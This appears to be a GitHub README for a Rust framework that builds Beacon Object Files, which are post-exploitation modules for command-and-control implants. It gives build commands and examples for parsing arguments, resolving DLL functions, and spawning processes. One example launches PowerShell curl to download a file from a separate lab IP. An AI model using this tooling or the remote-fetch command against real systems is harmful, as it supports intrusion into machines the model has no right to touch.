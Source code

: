 A different approach to building BOFs in rust. Similar to `bof-oxide` but uses FFI to create wrapper fns.

## Building

prerequisites `just`

```
cargo install just
```

#### utils

Build with utils enabled allowing us to extract data passed to the coff along with `printf`. This is default.

```bash
just bof-utils
```

#### beacon_api

```
just bof-beacon_api
```

example feature usage with argument passing

```rust
let mut beacon = Beacon::new(args, alen);
beacon.format_alloc(256);
let ip = beacon.get_arg();
printf(b"Ip: %s \0", ip);
let port = beacon.get_int();
```

#### alloc

Build with the alloc feature enabled.

```bash
just bof-alloc
```

Allows the use of `vec![]`

#### all

All features enabled

```
just bof-all
```

---

### Parse Arguments

```rust
let mut beacon = Beacon::new(args, alen);
    beacon.format_alloc(256);

    let ip = beacon.get_arg();
    if !ip.is_null() {
        printf("Ip: %s \0", ip);
        let port = beacon.get_int();
        printf("Port: %d \0", port as *mut i8);
    } else {
        output("Usage: str:ip int:8080");
}
```

```
just bof-beacon_api
```


### Load functions from DLLs

```rust
use core::ffi::{c_char, c_int, c_void};
use utils::resolve_func;
use utils::{output, printf, GetProcAddress, LoadLibraryA};

type MessageBoxA = unsafe extern "system" fn(
    hwnd: *mut c_void,
    test: *mut u8,
    caption: *mut u8,
    style: u32,
) -> isize;

#[unsafe(no_mangle)]
pub unsafe extern "C" fn rust_bof(args: *mut c_char, alen: c_int) {
    let mut beacon = Beacon::new(args, alen);
    beacon.format_alloc(256);

    let some_func = resolve_func("user32.dll\0", "MessageBoxA\0");
    if !some_func.is_null() {
        let msgbox: MessageBoxA = unsafe { core::mem::transmute(some_func) };

        match (msgbox)(
            core::ptr::null_mut(),
            b"Hello bruh\0".as_ptr() as *mut u8,
            b"Rusty BOF\0".as_ptr() as *mut u8,
            1,
        ) as i32
        {
            1 => output("you clicked ok"),
            2 => output("You clicked cancel"),
            _ => output("exited"),
        }
    } else {
        output("[!] Could not find func");
    }
}
```

```
just bof-utils
```
![image](https://github.com/KickedDroid/loadstar/blob/master/examples/Screenshot_2025-08-20_12-37-33.png?raw=true)

### CreateProcessW

```rust
use alloc::vec;
use bindings::output;
use bindings::{to_wide, CreateProcessW, WaitForSingleObject, PROCESS_INFORMATION, STARTUPINFO};
use core::alloc::Layout;
use core::ffi::{c_char, c_int};
#[unsafe(no_mangle)]
pub unsafe extern "C" fn rust_bof(args: *mut c_char, _alen: c_int) {
    let mut si = STARTUPINFO::default();
    si.dwFlags = 0x1;
    let mut pi = PROCESS_INFORMATION::default();

    let mut dst_buffer = vec![0 as *mut u16; 100];

    let cmd = "powershell.exe -c curl -o hello.txt http://192.168.122.1:8000/wassssssup";
    if !to_wide(cmd, dst_buffer.as_ptr() as *mut u16) {
        output("Could not parse to wide str")
    };
    if (CreateProcessW)(
        core::ptr::null(),
        dst_buffer.as_ptr() as *mut u16,
        core::ptr::null_mut(),
        core::ptr::null_mut(),
        0,
        0,
        core::ptr::null_mut(),
        core::ptr::null(),
        &mut si,
        &mut pi,
    ) == 0
    {
        output("SHIT");
    };

    WaitForSingleObject(pi.hProcess, 0xFFFFFFFF);
}
```

```
just bof-alloc
```
